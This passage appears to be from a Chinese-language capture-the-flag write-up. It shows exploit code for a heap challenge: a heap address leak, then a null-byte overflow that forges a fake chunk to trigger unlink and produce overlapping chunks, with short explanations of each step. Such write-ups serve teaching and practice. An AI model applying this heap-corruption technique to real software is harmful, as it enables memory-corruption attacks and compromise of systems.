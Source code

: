 	Alloc(0x100)	#0
	Alloc(0x100)	#1
	Alloc(0x200)	#2
	Alloc(0x100)	#3

	Delete(0)
	Delete(2)
	Delete(3)

	Alloc(0x200)	#0
	Show()
	heap_addr = u64(rv(6).ljust(8,'\x00')) - 0x20
	lg('heap_addr',heap_addr)
### 2.3 overlap ###
首先申请chunk0，chunk1，chunk2。然后释放chunk0，并再次申请同样size的chunk，将chunk0申请回来，然后对chunk0进行填充伪造，并使其发生一字节溢出（null字节）。

	Alloc(0x108)	#0
	Alloc(0x4f0)	#1
	Alloc(0x100)	#2

	Delete(0)
	Alloc(0x108)	#0

	fake_fd = heap_addr - 0x18 + 0x18
	fake_bk = heap_addr - 0x10 + 0x18

	payload = p64(0) + p64(0x101) + p64(fake_fd) + p64(fake_bk)
	payload = payload.ljust(0x100,'\x00')
	payload += p64(0x100)
	Fill(payload)
伪造的chunk内容为：  

	|       presize=0x0      |       size=0x101       |
	| fd=heap_addr-0x18+0x18 | bk=heap_addr-0x10+0x18 |
	|*************************************************|
	|*************...................*****************|
	|************....................*****************|
	|      presize=x0100     | size=size & 0xffffff00 |

	Delete(1)
然后free(1),触发前向unlink。

	Alloc(0xf0)		#1
	Alloc(0x4f0)	#3

	Delete(0)
	Alloc(0x100)	#0
	payload = p64(0) + p64(0x711)
	Fill(payload)
此时，chunk0与chunk1发生overlap，可以通过chunk0覆写chunk1的size字段。
